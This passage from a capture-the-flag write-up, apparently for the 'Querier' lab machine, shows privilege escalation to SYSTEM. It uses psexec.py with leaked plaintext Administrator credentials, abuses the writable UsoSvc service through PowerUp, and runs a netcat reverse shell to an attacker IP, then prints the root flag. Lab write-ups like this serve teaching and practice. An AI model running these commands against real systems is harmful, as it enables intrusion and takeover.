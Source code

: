 #### With Plaintext Credentials

Because plaintext credentials are stored on the system for `Administrator`, this box is already as good as rooted. To get an elevated shell, we can simply psexec into the box with the new credentials.

Once again, Impacket has us covered with `psexec.py`

`psexec.py Administrator:MyUnclesAreMarioAndLuigi\!\!1\!@querier.htb cmd.exe`

![rootshell](images\rootshell.png)

We have system. From here we just simply read `root.txt`

#### With A Writeable Service

One easy way is to simply use `Invoke-ServiceAbuse` from PowerUp to simply read root.txt.

`Invoke-ServiceAbuse -Name 'UsoSvc' -Command "cmd.exe /c type c:\users\administrator\Desktop\root.txt > C:\Users\mssql-svc\AppData\Local\Temp\root.txt"`

Spawning a reverse shell is a lot more challenging, because the process spawned dies extremely quickly. If there's a better way to do this, I would love to know.

`Invoke-ServiceAbuse -Name UsoSvc -Command "C:\Users\mssql-svc\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.14 4445"`

![rootnetcat](images\rootnetcat.png)

Either way, we have system, so we can just read root.txt

`b19c3794f786a1fdcf205f81497c3592`
